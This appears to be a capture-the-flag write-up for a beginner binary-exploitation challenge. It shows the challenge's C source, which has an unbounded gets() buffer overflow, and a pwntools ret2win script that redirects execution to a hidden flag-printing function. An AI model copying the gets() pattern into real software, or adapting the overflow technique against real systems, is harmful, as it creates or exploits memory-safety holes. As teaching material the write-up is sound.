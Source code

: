 # Tranquil (pwn)

This is challenge 2 in the pwn section. Like last time, you will have to make your own ```flag.txt``` file to test with.

We were again given the binary along with the source code so lets start by checking out the binary:

``` Bash
$ file tranquil
tranquil: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a9aff78641655f347b0c78da560e5a67d41b14bd, for GNU/Linux 4.4.0, not stripped

$ checksec --file=tranquil
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   53 Symbols        No    0               3               tranquil
```

This time we see that it is still a 64-bit binary but doesn't have a stack canary. This tells us we will likely be doing some type of buffer overflow, but not injecting shellcode since the stack is marked as non-executable. Lets run the binary and try to get a seg fault:

``` Bash
$ ./tranquil
Enter the secret word: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Login failed!
zsh: segmentation fault  ./tranquil
```

 We see that we can successfully get it to seg fault which tells us we will be overflowing the buffer. Lets run ```ltrace``` and see what we can find:
 
 ``` Bash
 $ ltrace ./tranquil
 setbuf(0x7fcbf8ce5760, 0)                                                                                = <void>
setbuf(0x7fcbf8ce5680, 0)                                                                                = <void>
puts("Enter the secret word: "Enter the secret word: 
)                                                                          = 24
gets(0x7ffd84dcfb10, 1, 1, 0x7fcbf8c0a190password123
)                                                               = 0x7ffd84dcfb10
strcmp("password123", "password123")                                                                     = 0
puts("Logged in! The flag is somewhere"...Logged in! The flag is somewhere else though...
)                                                              = 48
+++ exited (status 0) +++
```
We see that we are comparing the user input to the string ```password123``` but passing that password in doesn't seem to do anything. It tells us that the flag is somewhere else, leading us to look into a return to win style challenge. Lets open the source code:

``` C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int win(){
    char flag[128];
    
    FILE *file = fopen("flag.txt","r");
    
    if (!file) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    
    fgets(flag, 128, file);
    
    puts(flag);
}





int vuln(){
    char password[64];
    
    puts("Enter the secret word: ");
    
    gets(&password);
    
    
    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }
    
    return 0;
}


int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();
    
    // not so easy for you!
    // win();
    
    return 0;
}
```
As we thought, we see that there is a function called ```win()``` that is not being called at all and prints our flag. This tells us we need to overflow the buffer in ```vuln()``` and change the return address to this ```win()``` function. If you look through this writeup (https://github.com/sampatti37/crypto-cat-binary-exploitations-101/blob/main/level03.md) I describe how to go through this process manually, but for this challenge, I am just going to script it. 

We will start with our standard python exploit template and then add the following to our custom exploit section:

``` Python3
io = start

offset = find_ip(cyclic(200))
```
This will start our program and find the ```$rip``` offset for us so we can overwrite it. Next, we need to get the address for our ```win()``` function. We can either use ```gdb``` and run the ```info functions``` command and copy the actual address or use the ```elf.symbols.win``` method in pwntools (I'll show both ways). 

Next, we need to package this up in our payload, write it to a file and send it off to the binary. After all this, our exploit will look like this:

``` Python3
io = start()

offset = find_ip(cyclic(200))

win = 0x0000000000401196
# win = elf.symbols.win

payload = flat (
    offset * asm('nop'),
    win
)

write("payload", payload)

io.sendlineafter(b':', payload)

io.interactive()
```
 If we now run this with logging set to ```error```, we see:
 
 ``` Bash
 $ python exploit.py
 Login failed!
flag{you_got_it}
```
We still get the login failed message but we get our flag! If we want to successfully login AND get the flag, we can modify our payload to look like this:

``` Python3
io = start()

offset = find_ip(cyclic(200))

password = b"password123" + b"\x00" * (offset - 11)

win = 0x0000000000401196
# win = elf.symbols.win

payload = flat (
    password,
    win
)

write("payload", payload)

io.sendlineafter(b':', payload)

io.interactive()
```
Now when we run, we see that we successfully logged in AND got our flag!

``` Bash
$ python exploit.py
Logged in! The flag is somewhere else though...
flag{you_got_it}
```
